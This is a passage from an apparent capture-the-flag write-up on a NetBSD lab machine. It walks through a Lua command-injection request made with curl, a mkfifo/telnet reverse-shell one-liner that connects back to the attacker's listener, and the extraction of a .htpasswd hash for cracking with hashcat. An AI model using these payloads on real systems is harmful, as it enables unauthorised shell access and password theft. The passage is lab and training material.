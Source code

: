 Which means that we have code execution. Great!
All we need to do now is to find a way to get a shell from that `RCE`.


## Foothold

First, I set up a listener on my machine.

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

Then I've tried to invoke `netcat` and other tools on the box, but it seems like <strong>NetBSD</strong> doesn't like it. I found that interesting [blog](https://sentrywhale.covm/documentation/reverse-shell) where it gives a few commands to try on 
<strong>NetBSD</strong>.

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f

Let's try to send that to the remote server with `curl`. 

{% highlight sh %}
curl "http://luanne/weather/forecast?city=Lond%27%20..%20os.execute(%22rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Ctelnet%2010.10.14.11%202222%20%3E%20/tmp/f%22)%20..%20%27on"
{% endhighlight %}

After a few seconds, I got connection on the box !

{% highlight text %}
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
{% highlight %}

## User

In the `/var/www/` directory, there is a file named `.htpasswd`. Inside of it, I've found a crypted password for the `webapi_user`.

> webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0

I'm gonna use `hashcat` to crack it. 

First I look for the algorithm used to crypt the password and then I crack it with hashcat. 

{% highlight sh %}
echo -n "\$1\$vVoNCsOl\$lMtBS6GL2upDbR4Owhzyc0" > hash && wc -c hash
34 hash
{% endhighlight %}

{% highlight sh %}
hashcat --example-hashes | grep -E '^HASH:\s.{34}$' -B 3
{% endhighlight %}

{% highlight text %}
MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
\--

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
\--

MODE: 3800
TYPE: md5($salt.$pass.$salt)
HASH: 78274b1105fb8a7c415b43ffe35ec4a9:6
{% endhighlight %}
